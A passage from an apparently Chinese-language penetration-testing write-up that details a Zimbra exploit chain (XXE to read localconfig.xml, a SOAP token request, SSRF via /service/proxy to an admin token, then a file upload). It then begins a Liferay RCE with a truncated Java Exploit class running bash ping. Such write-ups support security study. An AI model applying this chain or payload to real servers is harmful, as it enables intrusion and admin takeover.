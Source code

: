 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8nmDPSWmRKwE6hBp7OR6f7P2ibfHgWdctLP8ia4ic0482JGLetVUdiauE3A/640?wx_fmt=png)

接着放到重放去，修改请求方式为 POST，并且带入 URL :/Autodiscover/Autodiscover.xml  
并且修改 Content-Type: application/xml。接着带入 XML 的 POC

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8VJ9Ou0LvIBZcmcLUXSH0E8MTaJeBjMJyW9cbRscLWpQiaea5j4rjkSg/640?wx_fmt=png)

这里已经成功的读取到了用户的信息。说明 XXE 攻击成功了！接着需要构造 payload 来读取 zimbra 的配文件 localconfig.xml。由于 localconfig.xml 为 XML 文件，需要加上 CDATA 标签才能作为文本读取，由于 XXE 不能内部实体进行拼接，所以此处需要使用外部 dtd。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8YsYicUCibufPzI3XYCVHSicekqFxlyxrERlg9FwickhGAibbE32E83DQgoA/640?wx_fmt=png)

利用已经得到的密码获取低权限的 token，低权限的 token 可以通过 soap 接口发送 AuthRequest 进行获取。访问到 /service/soap 或 / service/admin/soap 接着进行 抓包并且修改为 POST 模式。还要修改 Content-Type: application/xml 。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8DhRSBkNEENClbwHy14ykUA80gDMJpqmjZ8yDjNvexD3ddotqhspOeA/640?wx_fmt=png)

拿到低权限的 Token 之后可以通过 SSRF 漏洞获取 proxy 接口，访问 admin 的 soap 接口来获取到高权限的 Token，访问 URL:/service/proxy?target=https://127.0.0.1:7071/service/admin/soap ，接着进行 抓包，获取到数据包之后修改 POST 模式。这一步需要把上一步获取到的低权限的 token 添加到 cookie 中，将 xmlns="urn:zimbraAccount" 修改为 xmlns="urn:zimbraAdmin"，并且需要在 Host 头中加入端口 7070，URL 中 SSRF 访问的 target 需要使用 https 协议。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8yYb5UbFGhGNJRvCAnUs5ZmnRC0lPTq4kTiaKoibcWicfY7icIBYsxF6ePw/640?wx_fmt=png)

接着使用刚刚回去到了高权限的 TOKEN 之后，把这个高权限的 TOKEN 复制到下面的上传脚本中！文件即可上传成功

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8D6KHVibibicFD8UAX7BTsia5wJqhlvufRaiaspWZaponkVlU5FhSMlxsNLg/640?wx_fmt=png)

**Liferay 框架 RCE 漏洞**
---------------------

Liferay 框架 2020 年 3 月份爆出了 Liferay Portal JSON Web 服务器的 RCE 漏洞，使用 nmap 对其操作系统进行扫描判断，然后对执行命令的方式进行修改，修改为 Linux 的执行命令 bash

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDPWXzibeiacBu4BvsTFHianu8WhpjzxFGYN1aGPNLibdeDicaTuZufhQibCWZbwzPyyziaMbiaRVIesMQygw/640?wx_fmt=png)

知道了是什么操作系统之后，开始编写好 Exploit 的 javapayload。代码如下

```
public class Exploit {
```

```
static{
```

```
try{
```

```
String[] cmd = {"/bin/bash","-c","ping xxx.xxx.xxx -c 5 "};
```

```
java.lang.Runtime.getRuntime().exec(cmd).waitFor();
```
